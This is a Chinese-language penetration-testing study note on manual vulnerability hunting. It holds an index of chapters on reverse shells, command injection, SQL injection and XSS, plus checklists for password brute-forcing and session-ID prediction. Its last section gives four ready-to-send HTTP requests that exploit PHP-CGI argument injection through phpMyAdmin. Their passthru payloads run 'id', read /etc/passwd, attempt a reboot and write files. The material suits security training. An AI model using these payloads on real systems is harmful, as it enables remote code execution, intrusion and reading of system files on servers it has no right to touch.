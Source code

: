

# 手动漏洞挖掘

* [php反弹shell](./[8-10]--手动漏洞挖掘-php反弹shell.md)
* [命令执行漏洞](./[8-11]--手动漏洞挖掘-命令执行漏洞.md)
* [目录遍历、文件包含漏洞](./[8-12]--手动漏洞挖掘-目录遍历、文件包含漏洞.md)
* [文件上传漏洞](./[8-13]--手动漏洞挖掘-文件上传漏洞.md)
* [SQL注入漏洞](./[8-14]--手动漏洞挖掘-SQL注入漏洞.md)
* [XSS漏洞](./[8-15]--手动漏洞挖掘-XSS漏洞.md)
* [Xsser](./[8-16]--手动漏洞挖掘-Xsser.md)
* [Beef](./[8-17]--手动漏洞挖掘-Beef.md)


---
* 手动漏洞挖掘的原则
* 漏洞的本质
* 身份认证漏洞
* 默认安装漏洞


## 手动漏洞挖掘的原则
1. 所有变量
1. 所有头
1. Cookie的变量
1. 逐个变量删除


## 漏洞的本质
1. 数据与指令的混淆
1. 对用户输入信息过滤不严判断失误，误将指令当数据

## 身份认证漏洞
* 针对身份认证
1. 使用常用弱口令/基于字典的密码暴力破解
1. 测试是否锁定账号
1. 测试基于手机号的用户名破解，可以在站内论坛收集用户信息
1. 查看错误秘密提升信息，可以判断用户名或者密码错误
1. 密码嗅探工具可以直接获取密码

* 会话 SessionID
1. Xss / cookie importer
1. SessionID in URL
1. 使用嗅探工具.
1. 测试 SessionID 是否是长期不变的
1. 破译 SessionID 生成算法
    1. Sequencer
    1. 私有算法
    1. 预判下一次登录时生成的 SessionID
    1. 登出后返回测试

* 密码找回时的漏洞
1. 在 URL 中存在密码的散列值，可以直接进行密码设置


## 默认安装漏洞
* phpMyAdmin/setup
1. Burpsuite 测试命令
``` 
POST http://10.10.10.132/phpMyAdmin/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input HTTP/1.1
 Host: 192.168.20.10

 <?php
 passthru('id');
 die(); #dir()终止后续的显示
 ?>
```


2. 查看权限
``` 
POST http://10.10.10.132/phpMyAdmin/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input HTTP/1.1
 Host: 192.168.20.10
 Content-Length: 64
 
 <?php
 passthru('id');
 passthru('cat /etc/passwd');
 die();
 ?>
```
3. 查看可以使用的命令
``` 
 POST http://10.10.10.132/phpMyAdmin/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input HTTP/1.1
 Host: 192.168.20.10
 Content-Length: 114
 
 <?php
 passthru('id');
 passthru('cat /etc/passwd');
 passthru('ls');
 passthru('reboot');	#非管理员权限无法重启
 die();
 ?>
```

4. 测试写入权限
``` 
POST http://10.10.10.132/phpMyAdmin/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input HTTP/1.1
 Host: 192.168.20.10
 Content-Length: 114
 
 <?php
 passthru('id');
 passthru('echo "123456789" > a.txt');
 passthru('cat a.txt');
 passthru('ls');
 die();
 ?>
```

